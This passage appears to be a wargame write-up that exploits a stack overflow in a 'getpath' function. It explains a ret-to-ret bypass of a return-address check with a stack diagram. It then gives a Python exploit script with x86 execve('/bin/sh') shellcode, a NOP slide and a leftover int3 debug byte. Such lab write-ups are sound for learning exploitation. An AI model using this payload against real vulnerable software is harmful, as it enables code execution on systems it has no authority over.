 From this, I can see that the return address has been replaced with **0x55555555**, where **0x55** corresponds to the character 'U'. This means our padding ranges from 'A' to 'T'.

Now, I will overwrite **0x55555555** (the return address) with the address of the ret instruction inside the getpath function, which is **0x080484f9**.

This trick makes the program execute the **ret** instruction twice. The ***first ret*** jumps to our chosen ret instruction, and ***the second ret*** allows us to return to an address on the stack. 

Here is a clearer representation:

``` shell

1. BEFORE OVERWRITING THE RETURN ADDRESS

[ Buffer Overflow Happens ]
 ------------------------------------------------------
| AAAA....TTTT  |  0x55555555  |  Old EBP  |  Ret Addr |
 ------------------------------------------------------
                             ▲
                             └── This is where we overwrite


2. OVERWRITING THE RETURN ADDRESS WITH 0x080484f9  

 ---------------------------------------------------------
| AAAA....TTTT  |  0x080484f9  |  STACK_ADDR  |  Ret Addr |
 ---------------------------------------------------------
                             ▲
                             └── First ret executes, popping 0x080484f9 from the stack
                          

3. THE SECOND RET

 -------------------------------------------------
| AAAA....TTTT   |  STACK_ADDR  |  SHELLCODE_ADDR |
 -------------------------------------------------
                              ▲
                              └── Second ret pops this value & jumps to our shellcode
```

This is my script, and the link to the shellcode that I use => <a href="https://shell-storm.org/shellcode/files/shellcode-575.html" target="_blank">shellcode</a>

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack("I", 0x080484f9)
eip = struct.pack("I", 0xbffff7a0 + 0x30)
nopslide = "\x90"*100
int3 = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

print padding + ret + eip + nopslide + int3 + shellcode
```
